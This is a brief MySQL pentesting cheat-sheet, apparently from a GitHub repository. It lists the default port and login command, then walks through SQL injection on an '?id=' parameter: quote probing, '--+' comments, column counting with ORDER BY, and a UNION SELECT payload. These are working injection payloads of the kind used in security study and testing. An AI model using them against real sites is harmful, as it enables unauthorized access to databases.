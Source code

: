 ### Ports
Default ports 3306

### Access
mysql -u <username> -p 

### SQL Injection 
## Enumeration
1. Try single and double quotes; ?id=1' or ?id=1". If SQL errors are returned, you have escaped the input area of the SQL string.
2. Comment out the rest of the SQL query with '--+ ' (Note the space after the '+')

To find out how many columns in the table where '?id=' is present, use the ORDER operator by starting at 1, and increasing the value until an SQL error is returned. The column count equals the amount prior to the SQL error.

### ORDER Operator
> https://www.w3schools.com/sql/sql_orderby.asp
> Example below
> SELECT column1, column2, ...
> FROM table_name
> ORDER BY column1, column2, ... ASC|DESC;

> "?id=1' ORDER by 1--+ "
> "?id=1' ORDER by 2--+ "
> "?id=1' ORDER by 3--+ "
> "?id=1' ORDER by n--+ "

An SQL error "Unknown column '4' in 'order clause'" may be returned when the column integer in the ORDER operator doesn't exist, so now we know there are 3 columns in this table.

### UNION operator
> https://www.w3schools.com/sql/sql_union.asp
> ?id=1' UNION select 1,2,3 --+ 
